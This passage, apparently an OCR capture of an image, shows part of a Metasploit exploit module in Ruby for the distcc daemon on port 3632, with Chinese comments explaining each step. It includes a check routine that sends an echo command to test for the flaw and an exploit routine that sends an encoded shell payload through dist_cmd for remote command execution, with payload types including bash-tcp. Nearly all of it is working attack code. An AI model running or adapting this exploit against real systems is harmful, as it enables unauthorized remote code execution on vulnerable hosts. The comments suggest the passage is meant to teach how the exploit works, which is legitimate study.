 ```
          'Compat'      =>
            {
              'PayloadType' => 'cmd cmd_bash',
              'RequiredCmd' => 'generic perl ruby bash telnet openssl bash-tcp',
            }
        },
      'Targets'        =>
        [
          [ 'Automatic Target', { }]
        ],
      'DefaultTarget'  => 0,
      'DisclosureDate' => 'Feb 01 2002'
      ))

      # 默认的配置参数，攻击目标端口号为3632
      register_options(
        [
          Opt::RPORT(3632)
        ], self.class)
  end

  # 检查函数，用来测试目标主机的服务是否具有漏洞
  # 检查的方法是发送一条echo命令看服务返回的结果，如果有返回结果则说明漏洞存在
  def check
    r = rand_text_alphanumeric(10)
    connect
    sock.put(dist_cmd("sh", "-c", "echo #{r}"))

    dtag = rand_text_alphanumeric(10)
    sock.put("DOTI0000000A#{dtag}\n")

    err, out = read_output
    if out.index(r)
      return Exploit::CheckCode::Vulnerable
    end
    return Exploit::CheckCode::Safe
  end

  # 攻击过程
  def exploit
    # 连接目标服务的端口
    connect

    # 构建远程执行的命令，将 payload 放入到执行的脚本中
    distcmd = dist_cmd("sh", "-c", payload.encoded);
    
    # 发送命令到目标服务器
    sock.put(distcmd)
    
    dtag = rand_text_alphanumeric(10)
    sock.put("DOTI0000000A#{dtag}\n")

    # 读取输出信息
    err, out = read_output

    # 判断是 stdout 还是 stderr 然后打印出来
    (err || "").split("\n") do |line|
      print_status("stderr: #{line}")
    end
    (out || "").split("\n") do |line|
      print_status("stdout: #{line}")
    end

```